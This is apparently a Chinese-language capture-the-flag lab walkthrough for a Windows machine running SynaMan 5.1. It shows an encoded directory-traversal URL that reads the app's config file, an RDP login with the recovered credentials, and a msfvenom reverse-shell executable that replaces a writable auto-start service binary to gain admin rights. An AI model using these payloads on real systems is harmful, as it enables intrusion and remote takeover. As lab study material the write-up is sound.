









# 信息收集

## nmap







# web服务

4848端口存在目录穿越漏洞，但是我们不知道web服务所在的文件夹



6060端口`SynaMan 5.1`存在经过认证的远程代码执行

所以思路就是要找到`SynaMan` 的账号密码，尝试去找一找这个配置文件的位置

看了很多wp都没有写这个文件位置是怎么来的，在这篇文章中有写

[重置 SynaMan 的管理员密码 --- Resetting admin password for SynaMan](./https://web.synametrics.com/SynaManResetAdminPWD.htm)



```
http://192.168.150.168:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/SynaMan/config/AppConfig.xml
```

利用这个用户和密码可以通过远程桌面连接



```
xfreerdp /u:arthur /p:KingOfAtlantis /v:192.168.150.168
```


# 提权

运行winPEAsx64



securityService.exe这个应用所有人都可以操作，并且还有开机自启选项

```
wmic service get name,displayname,pathname,startmode,Startname | findstr /i "auto"
```

查看启动任务，该应用是以本地管理员权限自动启动的



那么提权思路就是生成反向shell的恶意securityService.exe，然后替换这个exe，重启电脑即可

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.222 lport=8002 -f exe -o shell.exe

move securityService.exe securityService.bat
move shell.exe securityService.exe
shutdown /r /t 0
```


